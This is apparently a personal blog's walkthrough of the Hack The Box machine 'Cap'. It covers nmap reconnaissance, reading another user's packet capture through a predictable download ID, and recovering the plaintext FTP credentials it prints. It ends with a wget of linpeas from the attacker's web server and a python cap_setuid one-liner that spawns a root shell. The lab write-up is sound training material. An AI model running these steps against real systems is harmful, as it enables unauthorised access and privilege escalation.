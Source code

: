 +++
title = 'Hack The Box: Cap'
date = 2024-11-01T22:59:51+02:00
draft = false
showpage = true
ctfcard = true
photoname = 'cap_cert.png'
ctf_name = 'Cap'
cert_path = 'https://www.hackthebox.com/achievement/machine/2124852/351'
+++

Let ip_address=10.10.10.10.<br>
Scan the machine with nmap.
```nmap
sudo nmap -sS -sV -sC -T4 -v -Pn 10.10.10.10

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 14:55 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:55
Completed NSE at 14:55, 0.00s elapsed
Initiating NSE at 14:55
Completed NSE at 14:55, 0.00s elapsed
Initiating NSE at 14:55
Completed NSE at 14:55, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 14:55
Completed Parallel DNS resolution of 1 host. at 14:55, 0.02s elapsed
Initiating SYN Stealth Scan at 14:55
Scanning 10.10.10.245 [1000 ports]
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Completed SYN Stealth Scan at 14:55, 3.58s elapsed (1000 total ports)
Initiating Service scan at 14:55
Scanning 3 services on 10.10.10.245
Completed Service scan at 14:57, 135.22s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.245.
Initiating NSE at 14:57
Completed NSE at 14:57, 12.21s elapsed
Initiating NSE at 14:57
Completed NSE at 14:57, 1.16s elapsed
Initiating NSE at 14:57
Completed NSE at 14:57, 0.01s elapsed
Nmap scan report for 10.10.10.245
Host is up (0.065s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Fri, 01 Nov 2024 18:55:40 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 01 Nov 2024 18:55:27 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 01 Nov 2024 18:55:31 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=11/1%Time=67252411%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Fri,\x2001\x20Nov\x202024\x2018:55:27\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Fri,
SF:\x2001\x20Nov\x202024\x2018:55:31\x20GMT\r\nConnection:\x20close\r\nCon
SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x2
SF:0OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
SF:20Fri,\x2001\x20Nov\x202024\x2018:55:40\x20GMT\r\nConnection:\x20close\
SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

A few interesting things are:
- port 21 ftp server (maybe we can login as anonymous, with no credentials)
- port 80 http server (navigate through the website to find vulnerablities)
- gunicorn, search for exploits depending on the running version

First let's try to login to ftp.
```bash
ftp 10.10.10.10 21
USER anonymous # (try also USER <nothing just press enter>)
PASS <nothing press enter>
```

No luck, failed to login. Next step is to check this gunicorn server, which is a Python based server.
Let's head to `http://10.10.10.10/`.
![lab](lab1.png)

If we go to "Security Snapshot (5 Second PCAP + Analysis)" page there is download button which seems to download a `.pcap`. Open wireshark to inspect this file.

![wireshark](lab2.png)

This is HTTP traffic from us. So there isn't anything usefull here. If we inspect the GET request of the browser when clicking the download button, we can see it is `http://10.10.10.10/download/4`, hence the form is `/download/<id>`

![wireshark](lab3.png)

The id is incremented for every capture. It's possible that there were packet captures from users before us.
Browsing to `/data/0` does indeed reveal a packet capture with multiple packets.

![wireshark](lab4.png)

The traffic is not encrypted so we can get the username and password combination easily, `nathan:Buck3tH4TF0RM3`.
Now let's try to ssh.

```bash
ssh nathan@10.10.10.10
```

We got a foothold into the system and found the user `flag.txt`.

So now we need to find a way to get root access. The system has already linpeas.sh script which we can use to do a fast scan for any previlege escalation opening.

Note: If linpeas.sh wasn't in the attacking system we could transfer it from our Kali with a web server `python3 -m http.server 1234` and download it in the attacking system with `wget http://<ip_address>:1234/linpeas.sh`

One very interesting result from `linpeas.sh` is at the `Capabilities section`

![capabilities](lab5.png)

`/usr/bin/python3.8` has set `cap_setuid`

![alt](lab6.png)

So if we execute, we should get root previleges.
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

We just gained ownership of the Cap Mahcine!!